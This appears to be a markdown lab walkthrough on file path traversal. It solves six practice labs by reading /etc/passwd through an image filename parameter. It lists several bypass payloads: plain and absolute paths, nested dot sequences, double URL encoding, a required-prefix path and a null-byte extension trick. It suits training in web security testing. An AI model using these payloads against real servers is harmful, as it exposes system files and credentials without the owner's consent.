




# Directory Traversal

Directory traversal (also known as file path traversal) is a web security vulnerability that allows an attacker to read arbitrary files on the server that is running an application.This might include application code and data, credentials for back-end systems, and sensitive operating system files.

Linux: ../../../etc/passwd
Windows: ..\..\..\windows\win.ini

1. [Lab 1](#lab-1) | 4. [Lab 4](#lab-4)
2. [Lab 2](#lab-2) | 5. [Lab 5](#lab-5)
3. [Lab 3](#lab-3) | 6. [Lab 6](#lab-6)

******

## [Lab 1]
File path traversal, simple case.

*" This lab contains a file path traversal vulnerability in the display of product images. To solve the lab, retrieve the contents of the /etc/passwd file."*

Let's open BurpSuite and capture the request we sent to the site. After forwarding the first few requests, we see a request like this.

We can use the filename parameter to read the /etc/passwd file.

After forwarding this request, we can look at the response from the target section.

******

## [Lab 2]
File path traversal, traversal sequences blocked with absolute path bypass.

*" This lab contains a file path traversal vulnerability in the display of product images. The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory. To solve the lab, retrieve the contents of the /etc/passwd file."*

This lab is exactly the same as before. The only difference is that instead of using "../../../etc/passwd" we will use "/etc/passwd"

******

## [Lab 3]

Use this: ....//....//....//etc/passwd

******

## [Lab 4]

Use this: ..%252f..%252f..%252fetc/passwd

******

## [Lab 5]

Use this: /var/www/images/../../../etc/passwd

******

## [Lab 6]

Use this: ../../../etc/passwd%00.jpg

